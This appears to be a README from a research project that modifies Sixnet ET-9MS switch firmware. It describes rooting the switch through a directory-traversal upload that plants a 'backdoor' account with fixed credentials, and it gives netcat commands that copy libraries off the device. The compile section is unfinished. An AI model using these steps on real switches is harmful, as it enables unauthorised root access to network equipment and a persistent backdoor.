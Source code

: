 # Sixnet ET-9MS Hacking
## Getting started

So you want to mangle packets using a Sixnet ET-9MS network switch. Great.

Prerequisites:

- ELDK 4.1 from Denx - download from here: ftp://ftp.denx.de/pub/eldk/4.1/arm-linux-x86/distribution/README.html . We installed this on Fedora Core 7, which worked well.
- Libpcap headers from Libpcap 0.9.4. Other versions may work, unless there was an API change.
- libswm.so and libswfile.so from your network switch (see how to retrieve these files in the 'rooting' section below).

## Rooting your switch

To make changes to your switch firmware, you first need to root your switch.

The best way to root the switch is to use a directory traversal bug in the web server interface.

We have included root.tar.gz file in the /exploit/ directory. Upload this file. It will create a backdoor account in the switch with username 'backdoor' and password 'dblabs'.

You may then telnet or SSH to the switch and will have a root shell.

## Retrieving libswm and libswfile

These shared libraries are stored in /usr/lib/ . I recommend transferring them off of the switch using netcat:

&#35; cd /usr/lib

&#35; nc <your computer IP> 4444 < libswm.so.1.4.0

&#35; nc <your computer IP> 4444 < libswfile.so

Set up a netcat listener on port 4444 on your workstation to receive the files:

$ nc -l -p 4444 > libswm.so
$ nc -l -p 4444 > libswfile.so

## Compiling and linking

The following exports are needed to successfully compile the swm-test.c program
(TODO)

